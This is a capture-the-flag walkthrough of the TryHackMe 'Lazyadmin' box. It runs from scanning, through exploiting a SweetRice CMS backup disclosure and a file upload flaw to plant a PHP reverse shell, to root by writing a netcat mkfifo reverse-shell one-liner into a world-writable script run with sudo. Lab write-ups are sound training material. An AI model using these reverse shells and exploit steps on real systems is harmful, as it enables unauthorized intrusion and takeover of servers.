




{kind=link}
Lazyadmin is an easy rated box on Tryhackme. On this box we will begin with nmap scan to enumerate various ports. We shall then exploit a well known vulnerability on the box to get initial foothold and finally do privilege escalation through a script running on the box and it is owned by root. (My IP would vary because I restarted the lab)
Enumeration
We begin with port scanning where by we will use nmap . We have used -sC for default script -sV to enumerate the version -oA to out put format to a file called initial and the box IP and it’s results is here.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
└─$ nmap -sC -sV -oA initial 10.10.249.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 11:22 EAT
Nmap scan report for 10.10.249.217
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 497cf741104373da2ce6389586f8e0f0 (RSA)
| 256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_ 256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.39 seconds
Since port 80 is open we shall use gobuster to enumerate the directories on the website and we get /content . Well let’s navigate there http://<IP>/content/ . Nice we see a CMS (content management system) called SweetRice (Remember this because we will research more on this CMS).
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
─$ gobuster dir -u http://10.10.249.217/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.249.217/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.3
[+] Timeout: 10s
===============================================================
2023/05/10 11:26:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403) [Size: 278]
/.hta (Status: 403) [Size: 278]
/.htpasswd (Status: 403) [Size: 278]
/content (Status: 301) [Size: 316] [--> http://10.10.249.217/content/]
/index.html (Status: 200) [Size: 11321]
/server-status (Status: 403) [Size: 278]
Progress: 4707 / 4714 (99.85%)===============================================================
2023/05/10 11:28:12 Finished
===============================================================
content
{kind=link}
I searched if I can find anything on the comment section but I couldn’t find. So I decide to use gobuster again to brute-force and see if I can enumerate other directories on the content .
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
└─$ gobuster dir -u http://10.10.249.217/content/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.249.217/content/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.3
[+] Timeout: 10s
===============================================================
2023/05/10 11:38:58 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd (Status: 403) [Size: 278]
/.htaccess (Status: 403) [Size: 278]
/.hta (Status: 403) [Size: 278]
/_themes (Status: 301) [Size: 324] [--> http://10.10.249.217/content/_themes/]
/as (Status: 301) [Size: 319] [--> http://10.10.249.217/content/as/]
/attachment (Status: 301) [Size: 327] [--> http://10.10.249.217/content/attachment/]
/images (Status: 301) [Size: 323] [--> http://10.10.249.217/content/images/]
/inc (Status: 301) [Size: 320] [--> http://10.10.249.217/content/inc/]
/index.php (Status: 200) [Size: 2199]
/js (Status: 301) [Size: 319] [--> http://10.10.249.217/content/js/]
Progress: 4712 / 4714 (99.96%)===============================================================
2023/05/10 11:40:45 Finished
===============================================================
Nice. We have a bunch of directories we need to check them.
If we go to /as we find login page. So where would we find the login credentials? Well that’s the same question I asked myself. That aside… Lets continue with the enumeration.
login I decided to do some research on SweetRice . We shall begin searching it on searchsploit before going to the internet. Here is the result we get:
{kind=link}
1
2
3
4
5
6
7
8
9
10
11
12
13
14
└─$ searchsploit SweetRice
------------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
---------------------------------------------------------------------------------------------------------
SweetRice 0.5.3 - Remote File Inclusion | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload | php/webapps/14184.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Well, SweetRice have several vulnerabilities associated with it. We shall start with Backup Disclosure to see if we can have something useful on its backup.
If you cat out the php/webapps/40718.txt we can see the where the backup is stored.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
└─$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016
Proof of Concept :
You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup
and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
We shall navigate to http://10.10.249.217/content/inc/mysql_backup and we would find the backup. Download the backup from there then we have a look at it.
backup
{kind=link}
1
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin's Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
We see it has hard coded username of manager and hash password 42f749ade7f9e195bf475f37a44cafcb If we go to crackstation.net we find its password which is Password123
crackstation.net
{kind=link}
So I decided to tried to exploit the file upload vulnerability which we know it is vulnerable to it. I found this python exploit from exploit-db https://www.exploit-db.com/exploits/40716 . The challenge I faced was alot of this php exploits was not working till I found this from github https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php so change where necessary i.e IP and Port
Initial foothold
We shall run the python script and fill in the necessary details…
1
2
3
4
5
6
7
8
Enter The Target URL(Example : localhost.com) : 10.10.205.80/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : revshelll.php5
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.205.80/content/attachment/revshelll.php5
Then we shall open a listening port waiting for connection. When we visit the Url given by the script we would have reverse shell connection.
1
2
3
4
5
6
7
8
9
10
11
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.112.1] from (UNKNOWN) [10.10.205.80] 51296
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
16:07:43 up 42 min, 0 users, load average: 0.00, 0.00, 0.06
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
So let us upgrade our shell by typing python -c "import pty;pty.spawn('/bin/bash')" then export TERM=xterm then press CTRL + z to background the shell and finally on your machine stty raw -echo; fg
1
2
3
4
5
6
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@THM-Chal:/$ export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended nc -lvnp 9001
stty raw -echo; fg
Now we have a stable shell and we can cat out the user flag
privilege escalation
We shall start by sudo -l to see which files the user can run with root privilage
1
2
3
4
5
6
7
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
Well we have backup.pl file. Lets check its permissions.
1
2
www-data@THM-Chal:/home/itguy$ ls -la | grep backup.pl
-rw-r--r-x 1 root root 47 Nov 29 2019 backup.pl
We don’t have permissions to write to the file. Now we have to cat the file to see the code being ran.
1
2
3
4
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
It is running another script called copy.sh found on the /etc directory.
Lets see the permissions of /copy.sh
1
2
www-data@THM-Chal:/etc$ ls -la copy.sh
-rw-r--rwx 1 root root 81 Nov 29 2019 copy.sh
We have write permissions on this file. So what we can do is create a payload and save it to the file where by we shall receive a revershell as root.
1
2
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
Infact if we cat the contents of copy.sh we see a payload already there. The only thing we shall do is change the IP to ours and the port number.
1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f" > copy.sh
Open a listener on another terminal on port 4444 nc -lvnp 4444
Now run the file with sudo.
1
2
www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
1
2
3
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.112.1] from (UNKNOWN) [10.10.205.80] 56526
We have root and we can go and cat out the flag in /root/root.txt and submit it.
Well this was a good box and we have learnt alot of techniques especially on enumeration.